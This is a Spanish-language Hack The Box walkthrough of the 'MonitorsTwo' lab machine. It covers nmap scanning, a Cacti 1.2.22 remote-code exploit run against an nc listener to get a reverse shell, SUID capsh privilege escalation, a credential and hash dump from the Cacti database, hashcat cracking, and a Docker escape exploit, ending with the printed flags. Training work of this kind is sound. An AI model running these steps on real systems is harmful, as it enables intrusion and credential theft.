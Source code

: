 ```yaml
---
title: MonitorsTwo HTB
date: 2023-07-12
tier: easy
author: naibu3
---
```


## Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn 10.10.11.211
```
```nmap
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Ahora buscamos versiones y más información:

```bash
sudo nmap -sCV -p22,80 10.10.11.211
```
```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como parece que la explotación irá via web, podemos ir lanzando el script `http-enum` de [[nmap]]:

```bash
sudo nmap --script http-enum -p80 10.10.11.211
```
```nmap
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /docs/: Potentially interesting folder
```

Si accedemos a la web, veremos una pestaña de login de un servicio llamado **Cacti**, vemos también un número de versión, la **1.2.22**. Con una breve búsqueda en internet vemos que:

> Cacti es una completa solución de gráficos, monitoreo de redes y recopilación de datos que aprovecha el poder de RRDtool. Con la herramienta Cacti puedes sondear servicios a intervalos predeterminados y hacer gráficas con los datos resultantes.

Si buscamos junto a la versión, encontraremos que resulta ser vulnerable, además de un [repositorio](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) con un exploit en [[python]].

## Explotación

Si nos ponemos en escucha y lo ejecutamos:

```bash
nc -lvnp 39393
```

```bash
python3 exploit.py -u http://10.10.11.211 --LHOST=10.10.16.53 --LPORT=39393
```

Nos devolverá la conexión y obtendremos una shell:

```bash
bash-5.1$ whoami
whoami
www-data
```

Ahora podremos aplicar un [[Tratamiento de la tty]] para hacer más cómodo el reconocimiento del equipo ([[Reconocimiento del equipo]]). 

## Escalada de privilegios (Docker)

Como hemos visto, estamos bajo el usuario **www-data**, para tratar de listar usuarios podemos echar un vistazo al **/etc/passwd**, sobre el que tenemos permisos de lectura:

```passwd
root:x:0:0:root:/root:/bin/bash
[...]
```

En el que parece que el único usuario válido es **root**. Si ademś intentamos hacer un `echo $HOSTNAME`, nos dirá que es *50bca5e748b0*, lo que apunta a que la aplicación corre sobre un contenedor en [[Docker 1]]. Además, no está instalado *sudo* ni ningún editor.

Si comprobamos los **permisos SUID**:

```bash
find / -perm -4000 2>/dev/null
```
```find
[...]
/usr/bin/newgrp
/sbin/capsh
/bin/mount
[...]
```

Vemos que extrañamente **/sbin/capsh** tiene permisos SUID, si lo buscamos en [gtfobins](https://gtfobins.github.io/gtfobins/capsh/), vemos que podemos utilizarlo para convertirnos en **root**:

```bash
capsh --gid=0 --uid=0 --
```
```bash
root@50bca5e748b0:/var/www# whoami
root
```

Una vez como root, podemos leer el archivo **entrypoint.sh** de la raíz, donde vemos que se realizan conexiones a una base de datos:

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```

Si tratamos de ejecutar la siguiente línea `mysql --host=db --user=root --password=root cacti -e "show tables"`, veremos las tablas de la BD, donde nos llama la atención la tabla **user_auth**. Cambiamos la query para ver su contenido: 

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT username,password FROM user_auth"
```
```user_auth
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+
```

Ahora tenemos varias contraseñas hasheadas. Pero podemos romper la del usuario **marcus** con [[hashcat 1]]:

```bash
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
```
```hashcat
[...]
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
[...]
```

Y ya tenemos credenciales para acceder por [[22-ssh]] (`marcus:funkymonkey`). Ya tenemos la **flag de usuario** (`a72d202358018ed22b191030c3109366`).

## Escalada de privilegios

Una vez dentrode la máquina no encontramos nada sospechoso, salvo porque la versión de [[Docker 1]] es antigua. Tras una búsqueda por internet, descubrimos que es vulnerable y nos permite escalar privilegios, además encontramos un exploit en el siguiente [repo](https://github.com/UncleJ4ck/CVE-2021-41091).

Seguimos las instrucciones, asignando privilegios a la bash del contenedor del que escapamos antes, y ejecutamos el script, introducimos *yes*, y ya somos **root**. 

Ya has resuleto la máquina (`a27ca576dbee82997c0c0bfaf769249b`)!